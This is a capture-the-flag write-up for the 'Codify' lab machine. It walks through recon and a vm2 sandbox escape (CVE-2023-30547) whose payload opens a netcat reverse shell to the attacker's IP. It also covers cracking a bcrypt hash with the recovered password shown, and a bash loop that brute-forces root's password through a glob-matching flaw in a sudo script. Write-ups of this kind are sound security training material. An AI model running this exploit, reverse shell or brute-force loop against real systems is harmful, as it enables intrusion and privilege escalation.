

Codify

Recon
Starting with nmap. SSH on 22, Apache on 80, and a Node.js Express app on 3000. I trimmed the long list of filtered ports.
[Codify] nmap -Pn -Pn --min-rate 2000 -T5 -oN nmap -sSVC codify.htb
Nmap scan report for codify.htb (10.129.25.24)
Host is up (0.26s latency).
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp open http Apache httpd 2.4.52
|_http-title: Codify
|_http-server-header: Apache/2.4.52 (Ubuntu)
3000/tcp open http Node.js Express framework
|_http-title: Codify
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernelBoth web ports serve the same app, "Codify", an online playground that lets you write and run Node.js snippets in a sandbox. After adding codify.htb to /etc/hosts, the /about page spells out exactly how the sandbox is built: it runs untrusted code inside vm2 3.9.16.
http://codify.htb/about
vm2 3.9.16Exploitation
vm2 is a Node.js library meant to run untrusted JavaScript in an isolated context, and version 3.9.16 is vulnerable to CVE-2023-30547, a sandbox escape. vm2 failed to sanitise exceptions raised by the host while the sandbox was running, so a crafted object thrown from inside the sandbox leaks a reference to a host object. From that host object you can walk constructor.constructor back to the real Function constructor, and from there reach process and require('child_process'), which is a full break out of the sandbox into arbitrary command execution on the box.
leesh3288's public PoC (gist 381b230b) triggers this with a Proxy whose getPrototypeOf trap recurses until the host throws, then catches the leaked host error and pivots through its constructor. I dropped the command execution into the catch block so it fires a reverse shell, and pasted the whole thing into the /editor textarea to run it:
const {VM} = require("vm2");
const vm = new VM();
const code = `
err = {};
const handler = {
getPrototypeOf(target) {
(function stack() {
new Error().stack;
stack();
})();
}
};
const proxiedErr = new Proxy(err, handler);
try {
throw proxiedErr;
} catch ({constructor: c}) {
c.constructor('return process')().mainModule.require('child_process').execSync('busybox nc 10.10.15.221 4444 -e /bin/bash');
}
`
console.log(vm.run(code));Start a listener, submit the snippet, and the escape lands a shell as the low-privileged account running the editor service.
[Codify] nc -lvnp 4444
Connection received on 10.129.25.24
$ idPost Exploitation
Local enumeration turns up a SQLite database belonging to the contact app under /var/www/contact. Its users table holds a single bcrypt hash for joshua:
$ sqlite3 /var/www/contact/tickets.db 'select username,password from users'
joshua|$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2That is a bcrypt hash (mode 3200), so I fed it to hashcat with rockyou. It falls in about half a minute:
[Codify] hashcat -m 3200 hash /usr/share/wordlists/rockyou.txt
$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2:spongebob1
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)joshua is a real user on the box and the password is reused for his system account, so it is a straight su to the user flag:
$ su joshua
Password: spongebob1
joshua@codify:~$ cat ~/user.txtPrivilege Escalation
Checking sudo rights, joshua can run one backup script as root:
joshua@codify:~$ sudo -l
Matching Defaults entries for joshua on codify:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty
User joshua may run the following commands on codify:
(root) /opt/scripts/mysql-backup.shThe script prompts for the MySQL password and compares it to the real one before running the backup. The comparison is the bug:
if [[ $DB_PASS == $USER_PASS ]]; thenInside a bash [[ ]] test, an unquoted right-hand side is treated as a glob pattern, not a literal string. So $USER_PASS is matched against $DB_PASS as a pattern: entering * matches any password, and more usefully, entering a*, b*, and so on tells you whether the real password starts with that character. That turns the check into a character-by-character oracle. This small loop brute-forces the password one character at a time, watching for the script's success message:
root@codify:/tmp# cat test.sh
#!/bin/bash
password=""
while true; do
for char in {a..z} {A..Z} {0..9}; do
test_pass="${password}${char}*"
if echo "$test_pass" | sudo /opt/scripts/mysql-backup.sh 2>/dev/null | grep -q "confirmed"; then
password="${password}${char}"
echo "Found: $password"
break
fi
done
doneThe recovered password is also root's password, so once the loop prints the full string it is just a su to root and /root/root.txt.
joshua@codify:~$ su root
Password:
root@codify:/home/joshua# id
uid=0(root) gid=0(root) groups=0(root)
root@codify:/home/joshua# cat /root/root.txtThe MySQL instance itself runs in a container with FILE/load_file privileges, which looks like a UDF privilege escalation waiting to happen (raptor_udf2), but that is a rabbit hole here. The glob comparison in the sudo script is the intended path.